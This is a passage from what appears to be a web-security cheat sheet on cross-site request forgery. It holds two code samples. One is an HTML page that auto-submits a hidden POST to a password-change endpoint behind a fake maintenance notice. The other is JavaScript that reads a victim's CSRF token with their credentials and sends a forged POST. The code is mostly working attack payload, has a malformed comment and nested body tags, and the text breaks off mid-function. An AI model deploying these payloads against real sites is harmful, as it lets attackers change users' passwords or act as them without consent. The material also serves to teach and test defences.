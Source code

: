 ### Form POST request from within an iframe

```html
<--! expl.html -->

<body onload="envia()">
  <form
    method="POST"
    id="formulario"
    action="http://aplicacion.example.com/cambia_pwd.php">
    
  </form>
  <body>
    <script>
      function envia() {
        document.getElementById("formulario").submit()
      }
    </script>

    <!-- public.html -->
    [2-1.html](2-1.html)

    Sitio bajo mantenimiento. Disculpe las molestias
================================================

  </body>
</body>
```

### **Steal CSRF Token and send a POST request**

```javascript
function submitFormWithTokenJS(token) {
  var xhr = new XMLHttpRequest()
  xhr.open("POST", POST_URL, true)
  xhr.withCredentials = true

  // Send the proper header information along with the request
  xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded")

  // This is for debugging and can be removed
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
      //console.log(xhr.responseText);
    }
  }

  xhr.send("token=" + token + "&otherparama=heyyyy")
}

function getTokenJS() {
  var xhr = new XMLHttpRequest()
  // This tels it to return it as a HTML document
  xhr.responseType = "document"
  xhr.withCredentials = true
  // true on the end of here makes the call asynchronous
  xhr.open("GET", GET_URL, true)
  xhr.onload = function (e) {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
      // Get the document from the response
      page = xhr.response
      // Get the input element
      input = page.getElementById("token")
      // Show the token
```